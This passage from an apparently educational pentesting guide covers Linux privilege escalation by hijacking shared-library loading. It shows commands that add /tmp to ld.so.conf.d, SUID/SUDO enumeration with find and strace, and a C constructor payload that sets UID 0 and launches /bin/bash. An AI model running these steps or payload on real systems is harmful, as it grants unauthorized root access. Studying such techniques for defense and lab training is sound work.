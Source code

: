 ```bash
echo -n "/tmp" > custom.conf
cp custom.conf /etc/ld.so.conf.d/custom.conf
# Execute/wait for the ldconfig command to be executed to update the routes.
```

#### If you have write permissions on some of the configuration files:

```bash
# Example with libc.conf:
echo "/tmp" > /etc/ld.so.conf.d/libc.conf
# Execute/wait for the ldconfig command to be executed to update the routes.
```

{% hint style="warning" %}
There may also be cases where a configuration file is found with a symbolic link to another file where it has write permissions. In that case, we can do the same but in the file that is symbolically linked.
{% endhint %}
{% endtab %}

{% tab title="Lab Setup" %}
Follow the same steps as [here](shared-object-injection.md#lab-setup).

Then you can add SUDO, SUID permissions or simply add a cron job that runs this command.
{% endtab %}
{% endtabs %}

### #4. Missing Shared Object

There are SUID/SUDO binaries that may be looking for a `.so` (Shared Object) file but cannot find it. This can be exploited if that file is in a directory where we have write permissions.

{% tabs %}
{% tab title="Verification" %}
We look for **binaries** with **SUID/SUDO** permissions and then, with the `strace` command we investigate the most suspicious (or customized) ones to try to find a shared library that is not being found.

```bash
find / -type f -perm -04000 -ls 2>/dev/null # SUID
sudo -l # SUDO
strace <SUID/SUDO> 2>&1 | grep -iE "open|access|no such file"
# Output example:
openat(AT_FDCWD, "/tmp/test.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

If we can write to the directory where the shared library (`.so`) is not located, then we can escalate privileges.
{% endtab %}

{% tab title="Privilege Escalation" %}
After we have obtained the directory and the name of the shared library, we need to create our own:

{% code title="test.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject()
{
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```
{% endcode %}
